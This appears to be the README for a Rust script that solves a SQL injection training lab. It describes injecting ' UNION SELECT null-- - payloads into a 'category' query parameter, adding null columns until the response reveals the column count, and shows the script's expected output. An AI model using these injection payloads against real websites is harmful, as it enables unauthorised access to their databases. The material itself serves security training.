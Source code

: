 ## Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection parameter: category
❯❯ Trying payload: ' UNION SELECT null-- -
❯❯ Trying payload: ' UNION SELECT null, null-- -
❯❯ Trying payload: ' UNION SELECT null, null, null-- -
⦗#⦘ Number of columns: 3
🗹 The lab should be marked now as solved
```
